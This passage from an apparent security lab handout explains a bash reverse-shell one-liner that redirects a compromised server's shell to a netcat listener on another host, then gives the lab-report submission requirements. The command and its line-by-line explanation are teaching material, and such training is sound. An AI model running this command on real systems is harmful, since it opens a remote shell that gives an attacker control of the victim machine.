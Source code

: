 ```
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
```
&emsp; The above command represents the one that would normally be executed on a compromised server. It is quite complicated, and we give a detailed explanation in the following:

- "`/bin/bash -i`": The option `i` stands for interactive, meaning that the shell must be interactive (must provide a shell prompt).
- "`> /dev/tcp/10.0.2.6/9090`": This causes the output device (`stdout`) of the shell to be redirected to the TCP connection to `10.0.2.6`’s port `9090`. In `Unix` systems, `stdout`’s file descriptor is `1`.
- "`0<&1`": File descriptor `0` represents the standard input device (`stdin`). This option tells the systemto use the standard output device as the stardard input device. Since `stdout` is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection.
- "`2>&1`": File descriptor 2 represents the standard error `stderr`. This causes the error output to be redirected to `stdout`, which is the TCP connection.

In summary, the command "`/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1`" starts
a `bash` shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection. In our experiment, when the `bash` shell command is executed on `10.0.2.5`, it connects back to the `netcat` process started on `10.0.2.6`. This is confirmed via the "`Connection from 10.0.2.5 ...`" message displayed by `netcat`.

## 10 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits.


